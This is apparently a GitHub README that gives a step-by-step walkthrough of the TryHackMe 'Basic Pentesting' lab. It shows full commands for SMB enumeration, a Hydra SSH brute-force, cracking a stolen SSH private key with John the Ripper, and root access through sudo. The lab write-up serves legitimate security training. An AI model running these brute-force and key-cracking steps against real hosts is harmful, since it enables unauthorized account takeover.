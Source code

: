 # 🛡️ TryHackMe: Basic Pentesting - VAPT Report

This is a professional-style VAPT (Vulnerability Assessment and Penetration Testing) walkthrough of the **TryHackMe - Basic Pentesting** room. It includes enumeration, exploitation, privilege escalation, and flag capture, with step-by-step methodology and supporting screenshots.

 ![Banner](images/basicpentetsing.png)



## 📌 Room Info

* **Platform:** [TryHackMe - Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)
* **Difficulty:** Easy
* **Focus Areas:** Linux Enumeration, SMB, SSH, Hydra, John the Ripper, Privilege Escalation
* **Objective:** Get user and root flags exploitation

---

## 🧭 Methodology Summary

### 🔍 Nmap Scan

Performed an initial enumeration to discover open ports and services.

```bash
nmap -sC -sV -oN nmap.txt 10.10.X.X
```

**Result:**

* Port 22: OpenSSH
* Port 80: Apache
* Port 139/445: SMB

📸 *\[Insert image of Nmap scan]*

---

### 🗂️ SMB Enumeration

Used `smbclient` to check for anonymous shares:

```bash
smbclient //10.10.X.X/Anonymous -N
```

* Found staff.txt containing username `jan`

📸 *\[Insert image showing `staff.txt`]*

---

### 🏗️ Web Enumeration

Used Gobuster to scan for directories:

```bash
gobuster dir -u http://10.10.X.X -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

* No valuable data found on HTTP.

📸 *\[Insert image showing Gobuster scan]*

---

### 🔐 SSH Brute-Force (Hydra)

Tried brute-forcing SSH with known user `jan`:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.X.X
```

* **Success:** Found password for `jan`

📸 *\[Insert image of Hydra result]*

---

### 🔓 SSH Access to User Jan

```bash
ssh jan@10.10.X.X
```

* Logged in successfully

📸 *\[Insert image showing SSH access]*

---

### 🔍 Lateral Movement / Privilege Escalation to User Kay

Found user `kay` in `/home`

* Inspected `/home/kay/` and found `pass.bak`
* Couldn't `cat` it directly due to permissions
* Explored `.ssh` and found `id_rsa` private key

📸 *\[Insert image showing kay’s directory]*

---

### 🔑 Cracked SSH Private Key (John the Ripper)

```bash
python3 /usr/share/john/ssh2john.py id_rsa > kay.hash
john kay.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

* Found Kay's password

📸 *\[Insert image showing John cracking]*

---

### 🔐 SSH into Kay

```bash
ssh kay@10.10.X.X
```

* Logged in and captured the **user.txt** flag

📸 *\[Insert image showing user flag]*

---

### 🔝 Privilege Escalation

Checked for `sudo` permissions:

```bash
sudo -l
```

* `kay` had access to `/bin/bash` as root
* Ran:

```bash
sudo /bin/bash
```

* Gained root shell
* Captured **root.txt** flag

📸 *\[Insert image showing root access]*

---

## 🏁 Flags

* **User Flag:** `THM{xxxxxxxxxxxxxxxxxxxx}`
* **Root Flag:** `THM{xxxxxxxxxxxxxxxxxxxx}`

---

## 📂 Where I Found Things

* `staff.txt` with usernames: in **SMB share: Anonymous**
* `jan`'s password: via **Hydra brute-force on SSH**
* `kay` user: found in `/home/`
* `kay`'s SSH key: in `/home/kay/.ssh/id_rsa`
* `kay`'s password: cracked using **John the Ripper** from `id_rsa`
* Root access: via **sudo /bin/bash**

---

## 📸 Images

Upload screenshots in the `/images` folder and link them above using:

```md
![Nmap Scan](images/nmap.png)
```

---

## ✅ Conclusion

This machine is a great introduction to Linux enumeration, brute-forcing credentials, and simple privilege escalation. All actions were performed in a controlled lab environment for educational purposes.

---

> ⚠️ **Disclaimer:** This walkthrough is intended for educational use only.
